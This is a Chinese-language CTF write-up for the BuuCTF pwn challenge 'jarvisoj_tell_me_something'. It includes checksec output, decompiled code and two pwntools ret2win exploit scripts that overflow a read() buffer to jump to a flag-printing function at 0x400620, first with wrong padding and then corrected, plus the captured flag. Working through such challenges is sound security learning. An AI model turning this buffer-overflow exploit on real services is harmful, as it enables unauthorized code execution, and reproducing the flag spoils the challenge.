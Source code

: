 ```yaml
---
tags:
  - BuuCTF
  - 简单
---
```


# jarvisoj_tell_me_something

!!!warning "这道题有坑，以后注意主函数一开始有没有 `push ebp`"

## 前置工作

先 CheckSec，看结果

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec guestbook
[*] '/home/ela/Pwn/guestbook'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

然后随便运行一下，也没啥

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ./guestbook
Input your message:
aaaa-%p-%p-%p-%p-%p-%p
I have received your message, Thank you!
```

看一看 IDA 64 怎么说

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h] BYREF

  write(1, "Input your message:\n", 0x14uLL);
  read(0, &v4, 0x100uLL);
  return write(1, "I have received your message, Thank you!\n", 0x29uLL);
}
```

溢出点在 `read()` 上，然后找了找，发现有个函数叫 `good_game()`，如下

```c
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf[9]; // [rsp+Fh] [rbp-9h] BYREF

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf[0] = result;
    if ( (_BYTE)result == 0xFF )
      break;
    write(1, buf, 1uLL);
  }
  return result;
}
```

看上去很简单，只要我溢出到 `good_game()` 上就能获取 `flag`，地址是 `0x400620`

于是可以构建 Exp

```python
from pwn import *

p64 = lambda x: pack(x, 64)

io = remote("node4.buuoj.cn", 28354)

backdoor = 0x400620
payload = b"A" * (0x88+0x8) + p64(backdoor)

io.sendline(payload)
io.interactive()

```

结果很尴尬，运行不来，看一下主函数的汇编代码

![](https://z1.ax1x.com/2023/10/31/pinAgQH.png)

发现问题所在了，主函数开始的时候压根没有 `push ebp`，所以那个 `+0x8` 是不必要的

平常我们的主函数应该长这样

![](https://z1.ax1x.com/2023/10/31/pinEFX9.png)

所以修改 Exp，就搞定了

## 编写 Exp

```python
from pwn import *

p64 = lambda x: pack(x, 64)

io = remote("node4.buuoj.cn", 28354)

backdoor = 0x400620
payload = b"A" * 0x88 + p64(backdoor)

io.sendline(payload)
io.interactive()

```

最后获得 Flag 为 `flag{b99c254e-2950-4b4b-bdab-790d14867f45}`
